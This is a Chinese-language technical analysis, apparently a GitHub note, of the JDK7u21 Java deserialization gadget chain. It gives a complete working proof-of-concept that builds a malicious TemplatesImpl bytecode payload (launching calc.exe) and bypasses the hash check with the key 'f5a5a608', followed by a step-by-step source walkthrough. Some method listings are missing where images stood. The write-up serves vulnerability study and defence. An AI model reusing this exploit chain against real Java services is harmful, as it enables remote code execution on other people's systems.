


- [JDK7u21](#jdk7u21)
  - [POC](#poc)
  - [LinkedHashSet#readObject](#linkedhashsetreadobject)
    - [HashMap#put()](#hashmapput)
  - [AnnotationInvocationHandler#invoke](#annotationinvocationhandlerinvoke)
  - [AnnotationInvocationHandler#equalsImpl](#annotationinvocationhandlerequalsimpl)
  - [Hash绕过](#hash绕过)
    - [AnnocationInvocationHandler#hashCodeImpl](#annocationinvocationhandlerhashcodeimpl)
# JDK7u21
该链利用范围jdk<=7U21,主要思路是通过`HashMap`的实现里当发生Hash冲突时会调用后一个元素的`equals`方法进行元素比较.  
再利用动态代理的机制将该元素设置为`AnnotationInvocationHandler`代理类来触发其`invoke`方法最后走到其`equals`的实现类`equalsImpl`中的反射机制触发`TempaltesImpl`恶意类的`getOutProperties()`入口实现RCE.  
其中在进入`equals`方法时利用特殊字符串使得计算结果为0来绕过了hash校验.
## POC
```java
public class poc {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = getTemplate();
        HashMap map = new HashMap();
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler tempHanlder = (InvocationHandler) ctor.newInstance(Templates.class, map);
        Templates proxy = (Templates) Proxy.newProxyInstance(poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHanlder);
        LinkedHashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);
        map.put("f5a5a608", templates);
        byte[] obj=serialize(set);
        unserialize(obj);
    }

    private static TemplatesImpl getTemplate() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.makeClass("poctest");
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));
        CtConstructor cons = new CtConstructor(new CtClass[]{}, cc);
        cons.setBody("{ Runtime.getRuntime().exec(\"calc.exe\");}");
        cc.addConstructor(cons);
        byte[][] bytecodes = new byte[][]{cc.toBytecode()};
        System.out.println(bytecodes);
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytecodes);
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }

    //通过反射为obj的属性赋值
    private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }
    public static Object  unserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}
```
1. map.put要放在set.add之后,不然会直接本地触发命令执行.
2. 之所以不直接用HashSet的原因是LinkedHashSet里数据的下标和我们插入时的顺序一样，而HashSet顺序就不一样了
## LinkedHashSet#readObject
`LinkedHashSet`是一个继承了`HashSet`类并实现了Serializable接口的类,其重写的readObject()方法位于其父类的HashSet类中.  
其`readObject()`方法如下:

前面做了一些`HashMap`的初始化工作,然后判断调用`readObject()`方法的是否为`LinkedHashSet`或其子类后将map初始化为一个`LinkedHashMap`或者`HashMap`.在最后循环读取对象并调用`map.put()`将对象作为key放入`HashMap`,其中vaule为固定值,此时map为`LinkedHashSet`,但其调用的`put`其实是父类`HashMap`的`put`方法.
### HashMap#put()
`HashMap#put()`方法如下:

其中主要是HashMap的实现,首先计算key的hash值,然后根据hash值来调用hash函数来获取该key的索引位置,如果该位置为空,则将该键值对存入HashMap中,但是如果该位置不为空,已经有一个键值对了即Hash冲突,那么就会进行比较后进行覆盖原来的值并将旧值返回.
关键在于其比较的过程,首先判断hash是否一致,即`e.hash == hash`,然后满足以下条件之一即可:
* (k = e.key) == key
* key.equals(k)
即Key值相同或者调用key的equals方法来比较是否相等.
## AnnotationInvocationHandler#invoke
因为是调用的后一个元素的equals方法,当我们将后一个元素设置为`AnnotationInvocationHandler`代理类时,也就会去调用其`equals`方法,而`AnnotationInvocationHandler`为一个动态代理对象,调用动态代理对象的方法前都会先触发其`invoke`方法.  
来到其`invoke`方法中如下.
```java
    public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
```
其中var1为代理本身,var2为调用的方法(即`equals`),var3为调用方法的参数(即要做比较的上一个元素对象)
当满足调用方法名为`equals`,参数个数为1,且类型为Object对象时就会调用其自身的`equalsImpl`方法.
## AnnotationInvocationHandler#equalsImpl  
来到`equalsImpl`方法中如下,其中参数var1即equals的参数,即Map中的上一个元素对象.

前面通过`==`和是否为父子类来判断是否相等返回,当都不满足时进入else分支.
然后从`Method[] var2 = this.getMemberMethods();`获取到其全部方法,此时获取到即其代理对象`TempaltesImpl`的public方法,包括`getOutputProperties()`和`newTransformer()`方法.

在后面` var8 = var5.invoke(var1);`则利用反射直接循环执行了获取到的所有方法,也就通过`getOutputProperties()`进入了`TempaltesImpl`利用链.
## Hash绕过
在进入`equals`方法前首先需要满足的条件是`e.hash == hash`,即两个key的hash值要相等,但POC的两个元素分别是`Temlpaltes`对象和一个`AnnotationInvocationHandler`代理对象,不满足此条件.
### AnnocationInvocationHandler#hashCodeImpl
当计算hash时其实是分别调用其对应的`hashCode()`方法,即`templates.hashCode() == proxy.hashCode()`.
根据动态代理机制来到`AnnocationInvocationHandler`的`Invoke`方法中,其最后调用的是其`hashCodeImpl`方法.

其`hashCodeImpl`实现如下:

其最后返回的变量为var1,而`var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) `,即遍历memberValues的键值对,对键值分别做hash计算后异或.
而`memberValues`的值在其构造函数中被设置.

也就是在POC中的这两段代码
```java
        InvocationHandler tempHanlder = (InvocationHandler) ctor.newInstance(Templates.class, map);
        ...
        ...
         map.put("f5a5a608", templates);
```
将其设置为了一个键为`f5a5a608`,值为`templates`对象的数组.
而在对键`f5a5a608`做hashcode时会发现结果为0,即相当于var1的值即为templates做hashcode的结果和0做异或,即就为templates的hash值,导致原本的判断语句变成了`templates.hashCode() == prtemplates.hashCode()`导致结果为true,绕过了hash校验.  

最后的调用链如下:

